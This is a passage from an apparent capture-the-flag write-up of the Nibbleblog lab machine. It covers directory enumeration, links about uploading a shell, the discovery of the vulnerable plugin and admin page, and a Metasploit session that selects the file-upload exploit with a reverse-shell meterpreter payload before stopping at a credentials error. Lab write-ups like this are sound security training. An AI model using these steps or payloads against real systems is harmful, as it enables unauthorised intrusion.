 ```bash
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]                                  Progress: Progress: 15308 / 207644 (7.37%)        Progress: 21075 / 207644 (10.15%)         Progress:                                                                                                
===============================================================
2022/06/27 23:10:34 Finished
===============================================================
```

## Reading
Did some standard googling and came across a few interesting articles.
[CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-14941/Nibbleblog.html) - shows quite a few CVEs for this application
[WikiHak](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/) - demonstrates how to upload a shell in nibbleblog 4.0.3

## Continued Manual Discovery
Began to manually navigate to each folder underneath /nibbleblog that returned a 301. From the WikiHak link above, it pointed us to /nibbleblog/plugins/my_image. Digging down further I hit the following URL and can see a file upload 'browse...' button, but nothing indicating I can 'save' it to the server:
```html
http://10.10.10.75/nibbleblog/plugins/my_image/plugin.bit
```

We have an admin login @ admin.php:
![[Pasted image 20220627163631.png]]

# Exploitation
---
## Metasploit
As much as I hate doing it, I started up msfconsole. Identified the appropriate exploit, set the lhost and rhost, but upon running 'exploit' it said I need to input a username and password.
```bash
msf6 > search nibbleblogo
[-] No results from search
msf6 > search nibbleblog

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > LHOST=10.10.14.2
[-] Unknown command: LHOST=10.10.14.2
msf6 exploit(multi/http/nibbleblog_file_upload) > set LHOST 10.10.14.2
LHOST => 10.10.14.2
msf6 exploit(multi/http/nibbleblog_file_upload) > exploit

[-] Msf::OptionValidateError The following options failed to validate: USERNAME, PASSWORD
```